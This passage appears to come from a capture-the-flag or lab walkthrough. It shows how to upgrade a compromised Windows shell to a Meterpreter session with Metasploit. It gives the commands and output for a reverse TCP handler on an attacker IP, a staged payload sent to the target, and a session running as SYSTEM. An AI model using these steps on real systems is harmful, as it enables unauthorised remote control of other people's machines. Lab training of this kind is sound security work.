 Success! We now have a shell on the target system.

## Task 3: Privilege Escalation

### Upgrading to Meterpreter

For better post-exploitation capabilities, let's upgrade our shell to a Meterpreter session:

1. **Background the current shell:**
```bash
C:\Windows\system32> ^Z
Background session 1? [y/N]  y
```

2. **Use the shell to meterpreter module:**
```bash
msf5 > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload
   LPORT    4433             yes       Port for payload to connect to
   SESSION                   yes       The session to run this module on

# Set the session ID
msf5 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
```

3. **Execute the upgrade:**
```bash
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on [ATTACKER_IP]:4433
[*] Sending stage (206403 bytes) to [TARGET_IP]
[*] Meterpreter session 2 opened ([ATTACKER_IP]:4433 -> [TARGET_IP]:49159)
[*] Stopping exploit/multi/handler
[*] Post module execution completed
```

4. **Interact with the new Meterpreter session:**
```bash
msf5 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
